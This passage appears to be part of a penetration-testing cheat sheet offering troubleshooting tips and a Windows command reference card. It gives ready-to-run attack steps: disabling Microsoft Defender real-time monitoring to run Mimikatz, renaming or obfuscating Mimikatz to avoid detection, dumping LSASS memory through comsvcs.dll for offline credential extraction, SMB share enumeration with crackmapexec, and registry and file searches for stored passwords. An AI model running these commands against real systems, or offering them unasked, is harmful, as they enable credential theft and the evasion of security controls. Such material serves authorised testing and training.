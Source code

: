 #### Issue: SMB Access Denied
```bash
# Solution 1: Try different protocol versions
smbclient //192.168.148.101/share -U user --option='client min protocol=NT1'

# Solution 2: Use different tools
crackmapexec smb 192.168.148.101 -u user -p pass --shares

# Solution 3: Check for clock skew
ntpdate 192.168.148.101
```

#### Issue: Mimikatz Detected by Defender
```powershell
# Solution 1: Disable Defender (requires admin)
Set-MpPreference -DisableRealtimeMonitoring $true

# Solution 2: Use obfuscated version
# Rename mimikatz.exe to something else
# Use Invoke-Mimikatz PowerShell version

# Solution 3: Dump LSASS for offline analysis
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump [PID] C:\Temp\dump.dmp full
```

#### Issue: Service Won't Restart
```powershell
# Solution 1: Check dependencies
sc qdependencies ServiceName

# Solution 2: Force kill and restart
taskkill /F /IM service.exe
net start ServiceName

# Solution 3: Use WMI
Get-WmiObject -Class Win32_Service -Filter "Name='ServiceName'" | Invoke-WmiMethod -Name StartService
```

---

### Key Commands Reference Card

```powershell
# === Information Gathering ===
systeminfo                              # System information
whoami /all                            # Current user details
net user                               # List users
net localgroup administrators         # List admins
netstat -ano                          # Network connections
tasklist /v                           # Running processes

# === Service Enumeration ===
sc query                              # List services
wmic service list brief               # Service details
Get-Service | fl *                    # PowerShell service enum

# === Registry Search ===
reg query HKLM /s /f password         # Search for passwords
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run"  # Startup programs

# === File Search ===
dir /s *pass* == *.config            # Search for password files
findstr /si password *.xml *.ini *.txt  # Search in files
where /r C:\ *.bak *.old            # Find backup files
```